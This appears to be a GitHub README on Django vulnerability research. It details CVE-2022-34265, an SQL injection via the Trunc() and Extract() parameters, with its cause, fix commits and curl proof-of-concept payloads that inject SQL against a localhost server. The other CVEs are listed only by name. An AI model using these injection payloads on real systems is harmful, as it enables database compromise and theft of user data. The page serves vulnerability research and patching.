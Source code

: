 # Django Vulnerability Research

## Vulnerabilities

### [CVE-2022-34265](https://www.cvedetails.com/cve/CVE-2022-34265)

- **CWE-89**: Improper Neutralization of Special Elements used in an SQL Command
- **CVSS**: 9.8 CRITICAL
- **EPSS**: 0.54%

##### Cause

- SQL Injection due to an Improper Neutralization of special elements used in the following functions with these arguments:
	- `Trunc()` - `kind`
	- `Extract()` - `lookup_name`

##### Impact

- Complete compromise of user information

#### Commit

- [Refs CVE-2022-34265 -- Properly escaped Extract() and Trunc() parameters.](https://github.com/django/django/pull/15820/commits/877c800f255ccaa7abde1fb944de45d1616f5cc9)
- [Refs CVE-2022-34265 -- Unified DatabaseOperations._convert_*_to_tz() hook names.](https://github.com/django/django/commit/5e2f4ddf2940704a26a4ac782b851989668d74db)

#### PoC

```bash
# Normal URL
curl "http://localhost:4131/extract/?lookup_name=year"
curl "http://localhost:4131/trunc/?kind=year"

# URL where the database instruction can be executed
curl "http://localhost:4131/extract/?lookup_name=year%27%20FROM%20start_datetime))%20OR%201=1;SELECT%20PG_SLEEP(5)--"
curl "http://localhost:4131/trunc/?kind=year%27,%20start_datetime))%20OR%201=1;SELECT%20PG_SLEEP(5)--"
```

- Discovered by **Takuto Yoshikai (Aeye Security Lab)**
- Please check the following GitHub Repository for more information: [CVE-2022-34265](https://github.com/aeyesec/CVE-2022-34265)

### [CVE-2020-13524](https://nvd.nist.gov/vuln/detail/CVE-2020-13524)

### [CVE-2020-7471](https://nvd.nist.gov/vuln/detail/CVE-2020-7471)

### [CVE-2019-19844](https://nvd.nist.gov/vuln/detail/CVE-2019-19844)

### [CVE-2014-0472](https://nvd.nist.gov/vuln/detail/CVE-2014-0472)

## Resources

- [Django - Archive of security issues](https://docs.djangoproject.com/en/dev/releases/security/)
